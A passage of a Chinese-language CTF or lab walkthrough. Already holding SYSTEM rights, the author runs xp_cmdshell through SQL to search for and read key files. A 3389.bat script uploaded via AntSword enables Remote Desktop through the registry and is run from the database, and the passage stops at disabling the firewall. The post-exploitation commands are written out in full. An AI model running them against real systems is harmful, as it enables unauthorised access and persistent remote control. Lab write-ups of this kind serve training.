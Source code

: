 查看权限为 system

![image.png500](https://img.ghostliner.top/yxiTRJ.png)

查找 key 文件

```sql
EXEC xp_cmdshell 'for /r "c:\" %i in (key.*) do echo %i';
```

发现桌面存在 `key.txt`

![image.png500](https://img.ghostliner.top/3ZeS6O.png)

查看内容

```sql
EXEC xp_cmdshell 'type "c:\Documents and Settings\Administrator\桌面\key.txt"';
```

获取到 key3

![image.png500](https://img.ghostliner.top/jAKOuC.png)

## 6. 开启远程桌面

蚁剑上传 `3389.bat`

```batch
@REM 3389.bat
echo Windows Registry Editor Version 5.00>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg
echo "fDenyTSConnections"=dword:00000000>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
regedit /s 3389.reg
del 3389.reg
```

phpmyadmin 执行脚本

```sql
EXEC xp_cmdshell 'd:\web\3389.bat';
-- 查看端口开发状态
EXEC xp_cmdshell 'netstat -ano';
```

3389 端口开发，说明脚本执行成功

![image.png500](https://img.ghostliner.top/cZmcXn.png)

关闭防火墙
